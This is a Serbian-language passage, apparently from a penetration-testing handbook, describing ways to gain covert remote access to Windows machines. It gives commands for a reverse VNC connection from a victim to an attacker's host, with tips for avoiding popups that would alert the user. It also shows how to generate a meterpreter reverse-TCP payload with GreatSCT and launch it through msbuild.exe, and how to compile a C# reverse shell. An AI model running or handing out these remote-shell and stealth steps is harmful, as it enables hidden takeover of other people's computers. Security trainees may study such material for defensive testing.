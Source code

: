 **Napadač** treba da **izvrši unutar** svog **hosta** binarni fajl `vncviewer.exe -listen 5900` kako bi bio **spreman** da uhvati obrnutu **VNC vezu**. Zatim, unutar **žrtve**: Pokrenite winvnc daemon `winvnc.exe -run` i pokrenite `winwnc.exe [-autoreconnect] -connect <napadačeva_ip>::5900`

**UPOZORENJE:** Da biste održali prikrivenost, morate izbegavati nekoliko stvari

* Nemojte pokretati `winvnc` ako već radi ili ćete pokrenuti [popup](https://i.imgur.com/1SROTTl.png). proverite da li radi sa `tasklist | findstr winvnc`
* Nemojte pokretati `winvnc` bez `UltraVNC.ini` u istom direktorijumu jer će otvoriti [prozor za konfiguraciju](https://i.imgur.com/rfMQWcf.png)
* Nemojte pokretati `winvnc -h` za pomoć jer ćete pokrenuti [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Preuzmite ga sa: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Unutar GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Sada **pokrenite lister** sa `msfconsole -r file.rc` i **izvršite** **xml payload** sa:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Trenutni defender će vrlo brzo prekinuti proces.**

### Kompajliranje naše sopstvene reverzne ljuske

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Prva C# reverzna ljuska

Kompajlirajte je sa:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
